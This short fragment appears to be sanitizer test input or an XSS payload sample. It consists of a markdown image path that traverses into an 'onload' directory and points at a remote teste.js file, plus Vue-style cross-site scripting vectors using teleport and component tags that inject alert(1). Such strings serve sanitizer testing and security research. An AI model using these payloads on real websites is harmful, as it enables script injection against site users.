 ![](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=10)

<teleport to=script:nth-child(2)>alert&lpar;1&rpar;</teleport></div><script></script>

<component is=script text=alert(1)>
